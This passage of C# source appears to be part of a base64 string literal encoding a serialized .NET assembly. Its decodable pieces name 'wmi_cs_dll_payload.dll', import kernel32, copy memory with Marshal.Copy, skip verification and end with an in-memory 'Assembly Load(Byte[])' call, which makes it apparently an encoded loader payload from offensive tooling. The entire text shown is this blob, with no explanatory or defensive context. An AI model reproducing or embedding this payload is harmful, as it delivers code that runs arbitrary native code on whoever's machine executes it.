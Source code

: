     "Qnl0ZQA8UHJpdmF0ZUltcGxlbWVudGF0aW9uRGV0YWlscz57MEQxQTVERjAtRDZCNy00RUUzLUJB"+
    "QzItOTY0MUUyREJCMDNFfQBDb21waWxlckdlbmVyYXRlZEF0dHJpYnV0ZQBWYWx1ZVR5cGUAX19T"+
    "dGF0aWNBcnJheUluaXRUeXBlU2l6ZT0zNDEAJCRtZXRob2QweDYwMDAwMDItMQBSdW50aW1lSGVs"+
    "cGVycwBBcnJheQBSdW50aW1lRmllbGRIYW5kbGUASW5pdGlhbGl6ZUFycmF5AEludFB0cgBvcF9F"+
    "eHBsaWNpdABTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXMATWFyc2hhbABDb3B5AFplcm8A"+
    "RGxsSW1wb3J0QXR0cmlidXRlAGtlcm5lbDMyAC5jY3RvcgBTeXN0ZW0uU2VjdXJpdHkAVW52ZXJp"+
    "ZmlhYmxlQ29kZUF0dHJpYnV0ZQAAAAAAAyAAAAAAAPBdGg231uNOusKWQeLbsD4ACLd6XFYZNOCJ"+
    "AyAAAQMAAAECBgkHAAQJCQkJCQoABhgJCQkYCRAJBQACCRgJBSABARENBCABAQgEAQAAAAMGERAH"+
    "AAIBEikRLQQAARgKCAAEAR0FCBgIAgYYCAcFHQUJGAkYBCABAQ4IAQAIAAAAAAAeAQABAFQCFldy"+
    "YXBOb25FeGNlcHRpb25UaHJvd3MBgJ4uAYCEU3lzdGVtLlNlY3VyaXR5LlBlcm1pc3Npb25zLlNl"+
    "Y3VyaXR5UGVybWlzc2lvbkF0dHJpYnV0ZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3Vs"+
    "dHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5FQFUAhBTa2lwVmVy"+
    "aWZpY2F0aW9uAQAAAOgpAAAAAAAAAAAAAP4pAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwKQAA"+
    "AAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAP8lACAAEAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAQAAAAGAAAgAAAAAAAAAAAAAAAAAAA"+
    "AQABAAAAMAAAgAAAAAAAAAAAAAAAAAAAAQAAAAAASAAAAFhAAAB0AgAAAAAAAAAAAAB0AjQAAABW"+
    "AFMAXwBWAEUAUgBTAEkATwBOAF8ASQBOAEYATwAAAAAAvQTv/gAAAQAAAAAAAAAAAAAAAAAAAAAA"+
    "PwAAAAAAAAAEAAAAAgAAAAAAAAAAAAAAAAAAAEQAAAABAFYAYQByAEYAaQBsAGUASQBuAGYAbwAA"+
    "AAAAJAAEAAAAVAByAGEAbgBzAGwAYQB0AGkAbwBuAAAAAAAAALAE1AEAAAEAUwB0AHIAaQBuAGcA"+
    "RgBpAGwAZQBJAG4AZgBvAAAAsAEAAAEAMAAwADAAMAAwADQAYgAwAAAALAACAAEARgBpAGwAZQBE"+
    "AGUAcwBjAHIAaQBwAHQAaQBvAG4AAAAAACAAAAAwAAgAAQBGAGkAbABlAFYAZQByAHMAaQBvAG4A"+
    "AAAAADAALgAwAC4AMAAuADAAAABQABcAAQBJAG4AdABlAHIAbgBhAGwATgBhAG0AZQAAAHcAbQBp"+
    "AF8AYwBzAF8AZABsAGwAXwBwAGEAeQBsAG8AYQBkAC4AZABsAGwAAAAAACgAAgABAEwAZQBnAGEA"+
    "bABDAG8AcAB5AHIAaQBnAGgAdAAAACAAAABYABcAAQBPAHIAaQBnAGkAbgBhAGwARgBpAGwAZQBu"+
    "AGEAbQBlAAAAdwBtAGkAXwBjAHMAXwBkAGwAbABfAHAAYQB5AGwAbwBhAGQALgBkAGwAbAAAAAAA"+
    "NAAIAAEAUAByAG8AZAB1AGMAdABWAGUAcgBzAGkAbwBuAAAAMAAuADAALgAwAC4AMAAAADgACAAB"+
    "AEEAcwBzAGUAbQBiAGwAeQAgAFYAZQByAHMAaQBvAG4AAAAwAC4AMAAuADAALgAwAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAIAAADAAAABA6AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"+
    "AAAAAAAAAAAAAAAAAAAAAAENAAAABAAAAAkXAAAACQYAAAAJFgAAAAYaAAAAJ1N5c3RlbS5SZWZs"+
    "ZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQgAAAAKCwAA";
    